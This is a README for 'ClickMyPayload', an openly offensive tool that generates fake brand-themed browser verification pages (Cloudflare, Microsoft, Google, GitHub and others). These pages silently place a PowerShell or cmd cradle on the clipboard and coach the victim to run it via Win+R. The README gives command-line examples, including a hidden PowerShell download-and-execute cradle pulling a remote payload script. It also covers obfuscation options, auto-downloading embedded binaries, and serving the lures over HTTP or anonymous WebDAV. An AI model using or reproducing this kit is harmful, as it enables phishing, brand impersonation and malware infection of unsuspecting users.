







# ClickMyPayload

**Browser-Based ClickFix Generator**



ClickMyPayload generates realistic browser verification pages that silently copy a command to the clipboard. The pages mimic well-known security and access-check interfaces. On page load the provided PowerShell or cmd cradle is written to the clipboard while a harmless decoy token is shown to the user. The page then guides the target through a short sequence of steps (Win+R, Ctrl+V, Enter). An optional binary payload can be embedded so it downloads automatically when the page is opened.

Developed by **Maverick** and **GhostOverflow**.


## Features

- Six brand-themed templates plus a fully customizable template
- Silent clipboard write of the chosen command on page load
- Optional binary payload embedding (base64 chunked, auto-download)
- Five obfuscation methods ranging from plain text to multi-stage
- Configurable post-verification redirect URL
- Clean, responsive HTML that closely matches official brand styling
- Interactive CLI or full command-line mode


## Screenshots

<!-- Replace the placeholders below with your own screenshots -->

### Cloudflare template


### Microsoft template


### Akamai template


### Google reCAPTCHA template


### GitHub template


### Fastly template


## Requirements

- Python 3.6 or newer
- No external packages required (standard library only)


## Installation

```bash
git clone https://github.com/shaheeryasirofficial/ClickMyPayload
cd ClickMyPayload
# or simply place clickmypayload.py in your working directory
```

Make the script executable if desired:

```bash
chmod +x clickmypayload.py
```


## Usage

### Interactive mode

Run the script without arguments and follow the prompts:

```bash
python3 clickmypayload.py
```

### Command-line mode

```bash
python3 clickmypayload.py \
  -c "powershell -nop -w hidden -c iex(...)" \
  -t 1 \
  -o 2 \
  -f output.html \
  -r https://www.example.com
```

### Options

| Flag | Long form | Description |
|------|-----------|-------------|
| `-c` | `--command` | PowerShell or cmd cradle to place on the clipboard |
| `-p` | `--payload` | Optional binary file to embed and auto-download |
| `-t` | `--template` | Template number (1-7) |
| `-o` | `--obf` | Obfuscation method (1-5) |
| `-f` | `--output` | Output HTML filename |
| `-r` | `--redirect` | URL to redirect to after the fake verification finishes |
| | `--help` | Show help and exit |


## Templates

| # | Name |
|---|------|
| 1 | Cloudflare - Browser Check |
| 2 | Microsoft - Account Verification |
| 3 | Akamai - Access Check |
| 4 | Google - reCAPTCHA |
| 5 | GitHub - Account Verification |
| 6 | Fastly - Access Verification |
| 7 | Custom (user-defined colors, text, and branding) |

Default post-verification redirects point to the real brand websites. Override them with `-r` / `--redirect`.


## Obfuscation Methods

| # | Method |
|---|--------|
| 1 | None (plain command) |
| 2 | Base64-encoded PowerShell |
| 3 | String concatenation + environment-variable expansion |
| 4 | Character-code substitution |
| 5 | Multi-stage (Base64 + concatenation + character codes) |


## Examples

Generate a Cloudflare page with Base64 obfuscation:

```bash
python3 clickmypayload.py \
  -c "powershell -nop -w hidden -c iex(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')" \
  -t 1 \
  -o 2 \
  -f cloudflare_lure.html
```

Generate a GitHub page that also embeds a binary and redirects elsewhere:

```bash
python3 clickmypayload.py \
  -c "cmd /c calc.exe" \
  -p /path/to/payload.exe \
  -t 5 \
  -o 1 \
  -f github_lure.html \
  -r https://support.github.com
```

Fully custom template (interactive prompts will ask for colors and text when `-t 7` is selected).


## Serving the Generated Page

Simple HTTP server:

```bash
python3 -m http.server 8080
```

Then open `http://localhost:8080/<output-file>.html` in a browser.

WebDAV example (requires `wsgidav`):

```bash
cp output.html /tmp/webdav-corp/
wsgidav --host=0.0.0.0 --port=8888 --root=/tmp/webdav-corp --auth=anonymous &
```


## How It Works

1. The user opens the generated HTML page.
2. JavaScript immediately writes the (optionally obfuscated) command to the system clipboard.
3. A decoy token is displayed in a styled command box so the page looks legitimate.
4. Instructions tell the user to press Windows+R, paste with Ctrl+V, and press Enter.
5. If a binary was supplied, it is reconstructed from base64 and downloaded automatically.
6. After the user clicks the verification button, a short progress animation runs and the browser redirects to the configured URL.


## Disclaimer
Unauthorized use against systems you do not own or have explicit permission to test is illegal. The authors accept no responsibility for misuse.


## Credits

- **Maverick**
- **GhostOverflow**


## License

Use at your own risk. No warranty is provided.
